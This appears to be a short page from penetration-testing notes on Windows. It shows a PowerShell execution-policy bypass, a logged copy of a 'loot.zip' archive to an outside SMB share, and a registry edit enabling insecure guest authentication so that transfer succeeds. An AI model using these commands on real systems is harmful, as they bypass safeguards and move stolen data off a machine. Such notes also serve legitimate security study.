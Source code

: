 ```yaml
---
title: Windows
description: Windows basic.
---
```


# Windows

## PowerShell's execution policy

[PowerShell's execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts.

Load a powershell shell with execution policy bypassed :

```powershell
C:\> powershell -ep bypass
```

## Registry

### Edit key

To fix the following error, you need to set `AllowInsecureGuestAuth`, located in `HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters`, to `1`.

```powershell
PS C:\Users\Administrator> copy .\20220219102531_loot.zip \\10.9.52.138\tmpshare\loot.zip
copy : You can't access this shared folder because your organization's security policies block unauthenticated guest access. These
policies help protect your PC from unsafe or malicious devices on the network.
At line:1 char:1
+ copy .\20220219102531_loot.zip \\10.9.52.138\tmpshare\loot.zip
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand
```

You can do it with powershell :

```powershell
PS C:\Users\Administrator> Set-Itemproperty -path 'HKLM:\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters' -Name 'AllowInsecureGuestAuth' -value 1
```